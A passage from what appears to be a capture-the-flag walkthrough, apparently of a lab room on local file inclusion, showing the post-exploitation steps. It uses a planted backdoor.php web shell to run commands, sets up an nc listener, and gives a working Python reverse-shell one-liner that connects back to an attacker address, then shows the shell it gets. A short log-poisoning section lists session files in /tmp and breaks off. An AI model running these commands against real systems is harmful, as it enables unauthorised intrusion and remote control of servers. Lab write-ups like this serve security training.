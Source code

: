 We can now execute code eg. `http://10.10.204.37/backdoor.php?cmd=whoami`
```
hayyywww-data 
```

### Set up a reverse shell

Enumerate commands with `which` to find what exists - finds python `http://10.10.204.37/backdoor.php?cmd=which%20python`
```
hayyy/usr/bin/python
```

Attacker machine - run nc listener
```
nc -nvlp 1337
```

Create a reverse shell with python
```
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.9.88.232",1337));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

On the attacker machine we receive a shell
```
$ whoami
www-data
$ hostname    
lfi-aoc-awesome-59aedca683fff9261263bb084880c965
$ ls
backdoor.php
css
error.txt
img
includes
index.php
js
login.php
logout.php
logs.php
manage.php
recover-password.php
reset.php
sensitive-data
```

### Bonus - log poisoning to get RCE

All session info are stored in /tmp/ and prefix with `sess_`

```
$ cd /tmp
$ ls
sess_0cfutnvsmoki60tvufsohkjko5
sess_1sk49qipta02q9k9a8j71i5ni4
sess_35pnhu3murvr4ln63d5k99qa94
...
```
